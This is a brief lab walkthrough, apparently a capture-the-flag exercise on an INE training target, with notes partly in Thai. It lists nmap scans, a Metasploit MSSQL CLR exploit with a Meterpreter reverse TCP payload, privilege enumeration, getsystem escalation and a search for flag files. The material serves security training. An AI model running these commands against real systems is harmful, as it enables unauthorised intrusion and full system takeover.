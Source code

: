 `nmap -sC -sV target.ine.local — min-rate 1000`
`nmap --top-ports 65536 target.ine.local -sV`
1433/tcp  open  ms-sql-s           Microsoft SQL Server 2012 11.00.6020; SP3

`msfconsole`
`search MSSQL 2012`
exploit/windows/mssql/mssql_clr_payload      1999-01-01       excellent  Yes    Microsoft SQL Server Clr Stored Procedure Payload Execution

`use 0`
`set RHOSTS target.ine.demo`
`exploit`

Exploit aborted due to failure: bad-config: Target SQL server arch is x64, payload architecture is x86
`set PAYLOAD windows/x64/meterpreter/reverse_tcp`
สถาปัตย์ไม่ตรง ต้องแก้ payload
`run`

`shell`

`dir /a:d` show only directory

`cd config` 
Access is denied.

`ctrl + c`
exit tunnal
`getprivs` 
แสดงสิทธิที่ user 

SeAssignPrimaryTokenPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege

SeImpersonatePrivilege  ใช้ยกระดับสิทธิตัวเองได้
`getsystem` ใช้ยกระดับสิทธิเป็น system

`search -f flag*.txt`
find flag

`dir C:\Windows\System32\*.txt /s /b` 
search txt 

EscaltePrivilageToGetThisFlag.txt